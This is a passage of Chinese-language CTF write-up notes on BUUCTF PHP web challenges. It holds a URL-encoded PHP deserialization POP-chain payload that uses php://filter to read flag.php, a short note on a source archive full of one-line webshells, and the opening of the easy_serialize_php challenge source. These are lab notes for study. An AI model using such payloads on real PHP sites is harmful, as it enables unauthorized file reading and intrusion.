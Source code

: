 
```
http://42f96042-8bda-4ad2-8e97-4b63de786209.node4.buuoj.cn:81/?pop=O%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3BO%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3Bs%3A9%3A%22index.php%22%3Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A57%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7Ds%3A3%3A%22str%22%3BN%3B%7D
```



## [强网杯 2019]高明的黑客

访问www.tar.gz得到源代码文件

![image-20231127161545468](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231127161545468.png)

下载出来3000个php文件

![image-20231127161711251](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231127161711251.png)

随意打开可以看到很多一句话木马

![image-20231127161800622](C:\Users\92579\AppData\Roaming\Typora\typora-user-images\image-20231127161800622.png)

应该是不是所有都能用的

###### 【待写】写脚本把所有的遍历一遍



## [安洵杯 2019]easy_serialize_php

直接看到了源码信息，感觉就是代码审计：

```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

```